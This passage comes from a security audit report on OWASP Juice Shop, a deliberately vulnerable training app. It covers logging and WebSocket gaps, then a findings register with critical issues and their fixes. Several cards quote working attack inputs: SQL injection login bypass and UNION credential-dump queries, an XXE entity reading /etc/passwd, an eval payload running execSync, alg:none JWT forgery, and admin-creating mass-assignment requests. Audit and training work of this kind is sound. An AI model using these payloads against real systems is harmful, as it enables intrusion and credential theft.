- 🟡 [F-060](#f-060) — Untrusted npm install/postinstall scripts enabled.
- 🟢 [F-063](#f-063) — Archived action dependency in release pipeline at `release.yml:66`.

<a id="7114-audit-logging"></a>

#### 7.11.4 Audit Logging

**Status:** 🟡 Partial - Morgan HTTP access logging covers request patterns; no structured security-event log records authentication failures, privilege actions, or authorization denials.

Morgan combined-format access logging is configured in `server.ts` via `app.use(morgan('combined'))`. Every HTTP request and response status is written to the access log. The log is served back via `routes/logfileServer.ts` with a user-controlled filename parameter.

**Security assessment**

Access logs record the fact of each request but not its security significance. Authentication failures, successful brute-force attempts, IDOR accesses, and privilege escalations are indistinguishable from normal traffic in the combined-format log. An attacker can exfiltrate data via IDOR for hours without triggering any alert. `routes/logfileServer.ts:14` accepts a caller-supplied filename and reads from the `logs/` directory, creating a path traversal risk where an authenticated user could read log files outside the intended directory.

**Relevant findings**

- 🟠 [F-026](#f-026) — Missing structured security audit log at `server.ts:338`.
- 🟠 [F-041](#f-041) — Unauthenticated log file disclosure at `routes/logfileServer.ts:14`.
- 🟡 [F-054](#f-054) — No authentication event audit logging at `routes/login.ts:19`.
- 🟡 [F-055](#f-055) — Missing structured audit log for B2B order execution at `routes/b2bOrder.ts:16`.
- 🟡 [F-056](#f-056) — No audit logging for data write operations at `models/index.ts:39`.
- 🟡 [F-057](#f-057) — No audit log on unauthenticated file upload or URL-fetch operations.

### 7.12 Real-time and Not Applicable Controls

**Verdict:** 🟡 Partial

**Controls covered:**

- [7.12.1 WebSocket Security (`Socket.IO`)](#7121-websocket-security-socketio)

**Implemented controls:** `Socket.IO` 3.1.2 with connection-level JWT auth middleware registered in `lib/startup/registerWebsocketEvents.ts`; structured event handler dispatch

**Assessment:** `Socket.IO` is present and used for the live chat feature and CTF challenge notification system. Connection establishment passes through JWT verification middleware. Per-message re-validation is absent, creating a TOCTOU window where a revoked or expired token can continue interacting via a persistent socket connection.

<a id="7121-websocket-security-socketio"></a>

#### 7.12.1 WebSocket Security (`Socket.IO`)

**Status:** 🟡 Partial - connection-level auth is present; per-message re-validation and rate limiting are absent.

`lib/startup/registerWebsocketEvents.ts:24` registers a connection handler that validates the JWT on the initial WebSocket handshake using the same `express-jwt`-derived middleware as the REST API. Once connected, individual event handlers at lines 34 and 41 do not re-validate the token on each message. CTF flag notification at line 30 broadcasts the flag to all connected clients on the `ctfFlag` event without scoping to the authenticated owning user.

**Security assessment**

Three weaknesses in the WebSocket surface:

- **TOCTOU gap**: A token revoked after connection (e.g., user logs out, admin invalidates session) continues to receive and send events for the full lifetime of the WebSocket connection. After the 6-hour expiry the JWT exp check fails on reconnect, but the open connection persists.
- **CTF flag broadcast** (🟠 [F-042](#f-042) — Unauthenticated CTF Flag Broadcast on WebSocket — `registerWebsocketEvents.ts:30`): The `challengeSolved` event broadcasts the solved flag to all connected sockets rather than only to the socket associated with the solving user.
- **Rate limiting absent** (🟠 [F-047](#f-047) — Unbounded WebSocket Connection Acceptance — `registerWebsocketEvents.ts:20`): `lib/startup/registerWebsocketEvents.ts:20` accepts unlimited concurrent connections without throttling.
- **ReDoS** (🟡 [F-062](#f-062) — ReDoS — `registerWebsocketEvents.ts:47`): An unanchored regex at `registerWebsocketEvents.ts:47` is evaluated against attacker-controlled WebSocket message data; a crafted input causes catastrophic backtracking.

**Relevant findings**

- 🔴 [F-019](#f-019) — Unauthenticated WebSocket channel at `registerWebsocketEvents.ts:24`.
- 🟠 [F-042](#f-042) — Unauthenticated CTF flag broadcast on WebSocket connect at `registerWebsocketEvents.ts:30`.
- 🟠 [F-047](#f-047) — Unbounded WebSocket connection acceptance without rate limiting at `registerWebsocketEvents.ts:20`.
- 🟡 [F-062](#f-062) — ReDoS via unanchored regex on attacker-controlled WebSocket data at `registerWebsocketEvents.ts:47`.

### 7.13 Defense-in-Depth Summary

OWASP Juice Shop has no functioning defense-in-depth by design. The two positive runtime controls - distroless container image and non-root UID - are the strongest individual protections in the application. They prevent most post-exploitation persistence and privilege escalation within the container environment. CodeQL SAST in the CI pipeline provides a third positive layer, though it has not flagged the intentional vulnerabilities (expected, given they are known training artifacts).

The structural defect that cascades furthest is the hardcoded RSA private key at `lib/insecurity.ts:23`. It simultaneously defeats authentication (JWT forgery), authorization (arbitrary `role` claim), session management (token theft is permanent), and the B2B API trust boundary. A single remediation - moving the private key to a managed secret store and upgrading `express-jwt` to version `8.x` with an `algorithms: ['RS256']` restriction - closes more attack surface than any other single change. The second-highest-leverage repair is replacing `security.hash()` with bcrypt or Argon2, which breaks the chain from SQL injection → credential dump → immediate recovery.

<!-- enriched:thorough -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 12 · 🟠 High: 41 · 🟡 Medium: 10 · 🟢 Low: 2 · **Total findings: 65**
**STRIDE Coverage:** Spoofing: 9 · Tampering: 11 · Repudiation: 6 · Information Disclosure: 24 · Denial of Service: 6 · Elevation of Privilege: 9

**Findings index:**<br/>🟠 [F-001](#f-001) — JWT Bearer Token Stored in localStorage (`login.component.ts:101`)<br/>🟠 [F-002](#f-002) — JWT Stored in localStorage (`request.interceptor.ts:13`)<br/>🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential…<br/>🔴 [F-004](#f-004) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery…<br/>🔴 [F-006](#f-006) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-008](#f-008) — UNION SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-009](#f-009) — Mass Assignment: role Field Writable (`server.ts:483`)<br/>🔴 [F-010](#f-010) — XXE (`routes/fileUpload.ts:83`)<br/>🔴 [F-011](#f-011) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🔴 [F-012](#f-012) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🔴 [F-013](#f-013) — Mass Assignment Admin Role (`server.ts:499`)<br/>🔴 [F-014](#f-014) — Zip Slip Arbitrary File Write (`routes/fileUpload.ts:45`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow Without State or PKCE (`login.component.ts:134`)<br/>🟠 [F-016](#f-016) — Rate Limit Bypass (`server.ts:346`)<br/>🟠 [F-017](#f-017) — Unpinned GitHub Action Tag Reference (`codeql-analysis.yml:23`)<br/>🟠 [F-018](#f-018) — Missing Authentication on `/file-upload` Multipart Upload Endpoint…<br/>🟠 [F-019](#f-019) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-020](#f-020) — Stored XSS in Product Descriptions (`search-result.component.ts:132`)<br/>🟠 [F-021](#f-021) — Reflected DOM XSS (`search-result.component.ts:170`)<br/>🟠 [F-022](#f-022) — MD5 Password Hashing (`lib/insecurity.ts:43`)<br/>🟠 [F-023](#f-023) — Disabled Lockfile Enforcement Allows Dependency Substitution — .npmrc:1<br/>🟠 [F-024](#f-024) — Unsafe Postinstall Hook Execution During Production Docker Build…<br/>🟠 [F-025](#f-025) — NoSQL Injection with multi:true Enables…<br/>🟠 [F-026](#f-026) — Missing Security Audit Log (`server.ts:338`)<br/>🟠 [F-027](#f-027) — OAuth Access Token Exposed in URL Fragment (`app.routing.ts:262`)<br/>🟠 [F-028](#f-028) — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet…<br/>🟠 [F-029](#f-029) — Uses --unsafe-perm flag — Dockerfile:5<br/>🟠 [F-030](#f-030) — Hardcoded Deployment Email in Public Workflow (`ci.yml:342`)<br/>🟠 [F-031](#f-031) — GitHub Actions workflow missing top-level permissions block (`ci.yml`)<br/>🟠 [F-032](#f-032) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)<br/>🟠 [F-033](#f-033) — On disabled lockfile integrity not enforced — .npmrc:1<br/>🟠 [F-034](#f-034) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-035](#f-035) — Unauthenticated Public Exposure of Encryption Key Directory…<br/>🟠 [F-036](#f-036) — Weak MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-037](#f-037) — Verbose Error Handler Exposing Stack Traces (`server.ts:676`)<br/>🟠 [F-038](#f-038) — Unauthenticated FTP and Encryption Key Directory Listing (`server.ts:269`)<br/>🟠 [F-039](#f-039) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-040](#f-040) — Unauthenticated Exposure of Encryption Keys and JWT Material…<br/>🟠 [F-041](#f-041) — Unauthenticated Log File Disclosure (`routes/logfileServer.ts:14`)<br/>🟠 [F-042](#f-042) — Unauthenticated CTF Flag Broadcast on WebSocket…<br/>🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)<br/>🟠 [F-044](#f-044) — No Rate Limiting on B2B Orders Endpoint Enables Event-Loop…<br/>🟠 [F-045](#f-045) — Unbounded Login Brute Force No Rate Limit (`server.ts:594`)<br/>🟠 [F-046](#f-046) — XML/YAML Bomb DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-047](#f-047) — Unbounded WebSocket Connection Acceptance…<br/>🟠 [F-048](#f-048) — Client-Side Route Guards Bypassable Without Server (`app.guard.ts:17`)<br/>🟠 [F-049](#f-049) — JWT Role Claims Not Validated Against Database at…<br/>🟠 [F-050](#f-050) — Two-Factor Authentication Disable (`routes/2fa.ts:158`)<br/>🟠 [F-051](#f-051) — Sensitive Routes Registered Without Authentication Middleware…<br/>🟠 [F-052](#f-052) — Unauthenticated Admin Endpoints (`server.ts:604`)<br/>🟡 [F-053](#f-053) — DOM XSS (`last-login-ip.component.ts:39`)<br/>🟡 [F-054](#f-054) — No Authentication Event Audit Logging (`routes/login.ts:19`)<br/>🟡 [F-055](#f-055) — Missing Structured Audit Log for B2B Order Execution…<br/>🟡 [F-056](#f-056) — No Audit Logging for Data Write Operations (`models/index.ts:39`)<br/>🟡 [F-057](#f-057) — No Audit Log on Unauthenticated File Upload or (`routes/fileUpload.ts:75`)<br/>🟡 [F-058](#f-058) — Sandbox Error Details Leaked to B2B API Callers (`routes/b2bOrder.ts:32`)<br/>🟡 [F-059](#f-059) — Container images published without signing or provenance (`release.yml`)<br/>🟡 [F-060](#f-060) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-061](#f-061) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)<br/>🟡 [F-062](#f-062) — ReDoS (`registerWebsocketEvents.ts:47`)<br/>🟢 [F-063](#f-063) — Archived Action Dependency in Release Pipeline (`release.yml:66`)<br/>🟢 [F-064](#f-064) — Missing HEALTHCHECK instruction — Dockerfile<br/>🟠 [F-065](#f-065) — Data disclosure (`challenges.yml:1381`)

<a id="th-01"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-07"></a><a id="th-10"></a><a id="th-02"></a><a id="th-04"></a><a id="th-08"></a><a id="th-09"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-16"></a><a id="th-17"></a>

### 🔴 Critical (12)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Hardcoded Credentials

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** After Google OAuth login, `oauth.component.ts:30` computes the user's local password as `btoa(profile.email.split('').reverse().join(''))` and passes it to `userService.save()` and then `userService.login()` at line 46 with the same derivation. Any attacker who knows a target user's email address (which Google profiles expose) can independently compute this password and authenticate via the standard `/rest/user/login` endpoint with `{ email: victim@email, password: btoa(victim@email.split('').reverse().join('')) }`, bypassing Google OAuth entirely.

When the target account is an admin, this becomes a complete privilege escalation. Any attacker knowing a victim's email address can compute their password and authenticate as that user without OAuth interaction, including admin accounts.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `btoa(profile.email.split('').reverse().join(''))` is used as both the registration password and the login credential, making the password deterministically derivable from publicly-known email address.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❷ [M-013](#m-013) — Move secrets to a managed secret store

**Classification:** OAuth / OIDC Misconfiguration · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA private key used to sign all application JWTs is embedded verbatim in `lib/insecurity.ts` at line 23. The public GitHub repository makes this key available to anyone.

An attacker reads the private key from the source, crafts a JWT payload with `role: 'admin'` and any target `email`, signs it with the known private key using `RS256`, and submits it as a Bearer token. All role checks in `isAuthorized()`, `isAccounting()`, and `isDeluxe()` verify against the matching public key (`lib/insecurity.ts:54`) - they will accept this forged token.

Any party with read access to the source repository can forge valid admin JWTs, completely bypassing all authentication and authorization controls.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - A full RSA private key (1024-bit) is hardcoded as a string literal at `lib/insecurity.ts:23` and used in `security.authorize()` at line 56 to sign all session JWTs.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-015](#m-015) — Move cryptographic keys to a managed secret store

**Classification:** OAuth / OIDC Misconfiguration · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:34`

**Issue:** The login handler constructs a raw SQL query via string interpolation: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '${security.hash(req.body.password)}'`. An unauthenticated attacker submits `' OR '1'='1'--` as the email parameter.

The injected clause short-circuits the WHERE condition, matching all rows. The application authenticates the attacker as the first returned user (typically admin).

Unauthenticated attacker gains a valid JWT as any application user, including admin, with full role privileges for 6 hours.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - Raw string interpolation of `req.body.email` and `req.body.password` into a Sequelize `query()` call at line 34 of `routes/login.ts` - no bind parameters, no escaping.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-014](#m-014) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Instances (6):** 🔴 `lib/insecurity.ts:54`, 🟠 `lib/insecurity.ts:55`, 🟠 `lib/insecurity.ts:58`, 🔴 `lib/insecurity.ts:191`, 🔴 `routes/chatbot.ts:248`, 🔴 `routes/verify.ts:117`

**Issue:** The application uses express-jwt version 0.1.3 (`package.json` line 167) and jsonwebtoken version 0.4.0 (line 189). These are pre-CVE-2015-9235 versions that do not enforce the expected algorithm and accept tokens with `alg: 'none'` in the header, treating the empty signature as valid.

An attacker takes any valid JWT, changes the `alg` header to `none`, strips the signature, and submits the token. The `isAuthorized()` middleware (`expressJwt({ secret: publicKey })`) accepts it.

Unauthenticated attacker bypasses JWT verification, accessing any endpoint protected by `security.isAuthorized()` middleware.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `lib/insecurity.ts:54` configures `expressJwt({ secret: publicKey })` using `express-jwt@0.1.3` - a version with confirmed `alg:none` and algorithm-confusion vulnerabilities.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-016](#m-016) — Enforce JWT signature and algorithm verification

**Classification:** OAuth / OIDC Misconfiguration · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `routes/address.ts:11`

**Instances (20):** 🔴 `routes/address.ts:11`, 🔴 `routes/address.ts:18`, 🔴 `routes/address.ts:29`, 🟠 `routes/basketItems.ts:68`, 🔴 `routes/dataExport.ts:26`, 🟠 `routes/delivery.ts:34`, 🔴 `routes/deluxe.ts:25`, 🔴 `routes/deluxe.ts:30` … (+12 more)

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** The search route concatenates `req.query.q` directly into a SELECT statement: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`. An attacker sends GET `/rest/products/search`?q=')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master-- to extract the full database schema.

A follow-up UNION SELECT id,email,password,role,4,5,6,7,8 FROM Users dumps all user credentials (`MD5` hashes) and role assignments. The response is returned as JSON in the normal products array.

An attacker can exfiltrate all user credentials, email addresses, roles, and the complete database schema from the SQLite database.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `sequelize.query()` is called at line 23 with criteria interpolated from `req.query.q` into a LIKE clause, with no parameterization or prepared statement.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-018](#m-018) — Use parameterized database queries

**Classification:** Cryptographic Failures · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Mass Assignment: role Field Writable

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:483`

**Issue:** The finale-rest auto-generated REST API registers UserModel with `exclude: ['password', 'totpSecret']` (`server.ts:483`), but does NOT exclude the `role` field. Finale passes the entire request body to Sequelize's `create()` method.

An unauthenticated attacker sends `POST /api/Users` with body `{"email":"attacker@evil.com","password":"pass","role":"admin"}`. Sequelize's `UserModel.create()` receives `role: 'admin'` and the model setter at `models/user.ts:86-99` accepts it (isIn validator confirms 'admin' is a valid value).

Any unauthenticated user on the internet can self-register with admin role, gaining full administrative access to the application including access to all user data and administrative operations.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `server.ts:483` shows the finale resource for User excludes only password and totpSecret, leaving role writable; `models/user.ts:80`-84 confirms role is a string field with defaultValue 'customer' but no write-protection from external input.

```typescript
// server.ts:483
  finale.initialize({ app, sequelize })

  const autoModels = [
    { name: 'User', exclude: ['password', 'totpSecret'], model: UserModel },
    { name: 'Product', exclude: [], model: ProductModel },
    { name: 'Feedback', exclude: [], model: FeedbackModel },
    { name: 'BasketItem', exclude: [], model: BasketItemModel },
```

**Fix:** ❶ [M-019](#m-019) — Add 'role' to excludeAttributes in the finale User resource, and force server-side default

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · XML External Entity (XXE)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload & Processing Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** At `fileUpload.ts:83`, uploaded XML is parsed with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` - the `noent: true` option instructs libxmljs2 to resolve external entity references declared in the DOCTYPE. An attacker submitting an XML file containing `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>&xxe;</root>` causes the server to read the local file and embed its contents in `xmlString`.

The resolved string is then appended verbatim into the HTTP 410 error response at line 87: `'B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400)`. Because the `/file-upload` endpoint requires no authentication (finding file-upload-service-001), any internet-facing attacker can perform this attack without credentials.

An unauthenticated attacker can exfiltrate arbitrary files readable by the `Node.js` process, including `/etc/passwd`, application config files, and private keys.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `fileUpload.ts:83` calls `libxml.parseXml(data, { noent: true })` - the `noent` flag is the direct enabler of external entity resolution; line 87 reflects up to 400 characters of the resolved XML document in the response.

```typescript
// routes/fileUpload.ts:83
      try {
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
        res.status(410)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❶ [M-020](#m-020) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - B2B Order Processing API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An attacker with a valid (or forged) B2B JWT submits a crafted JavaScript expression as `orderLinesData` that exploits the `notevil` AST-evaluator's known sandbox escape vectors. Because `notevil` is not hardened against adversarial inputs, a sufficiently crafted payload can break out of the `vm.createContext` sandbox and execute arbitrary code as the `Node.js` process.

This achieves full server-side RCE - reading environment secrets, pivoting to internal services, or installing persistence. The `notevil` library ships with `@ts-expect-error FIXME` in the import comment, indicating the maintainers are aware it lacks proper type safety and RCE-safety guarantees.

Full server-side code execution as the `Node.js` process user, enabling credential theft, lateral movement to internal services, and persistent backdoor installation.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - Line 23 of `routes/b2bOrder.ts` calls `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` where `orderLinesData` is the unsanitised request body field, and `safeEval` is the `notevil` library's `eval` function - a known incomplete sandbox.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** `routes/userProfile.ts:62` executes `eval(code)` where `code = username.substring(2, username.length - 1)` when the username matches the pattern `/#\{(.*)\}/`. A user sets their username to `#{process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()}` via the profile update endpoint, then GETs `/profile`.

The `eval()` call runs arbitrary `Node.js` code in the server process context with full filesystem and network access. The guard `utils.isChallengeEnabled(challenges.usernameXssChallenge)` only disables the eval path if the challenge is disabled - the challenge is enabled by default.

Authenticated attacker achieves arbitrary code execution as the `Node.js` process (running as root in the default Docker image), enabling file read/write, credential theft, and container escape.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `routes/userProfile.ts:62` calls `eval(code)` on a server-rendered username with no sandbox, no allowlist, and no output escaping - the raw eval return value replaces the template placeholder.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Mass Assignment Admin Role

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:499`

**Issue:** `server.ts:479-515` uses `finale-rest` to auto-generate CRUD endpoints for all models, including `POST /api/Users`. The `autoModels` array excludes `password` and `totpSecret` from responses (the `exclude` list) but does not restrict which fields are accepted on creation.

An attacker sends `POST /api/Users` with `{"email":"attacker@x.com","password":"P@ss1","role":"admin"}` and the `finale-rest` handler maps `role` directly to the `UserModel.create()` call, creating an admin-role account. The `UserModel` has a `role` column with a default of `customer` but the ORM does not enforce that client-supplied values are limited to `customer`.

Any unauthenticated caller creates an admin account, gaining full access to admin endpoints and all authenticated functionality.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `server.ts:499-502` passes user body fields to `finale.resource({ model: UserModel, endpoints: ['/api/Users', '/api/Users/:id'] })` without a `writableAttributes` allowlist excluding the `role` field.

```typescript
// server.ts:499
    { name: 'Hint', exclude: [], model: HintModel }
  ]

  for (const { name, exclude, model } of autoModels) {
    const resource = finale.resource({
      model,
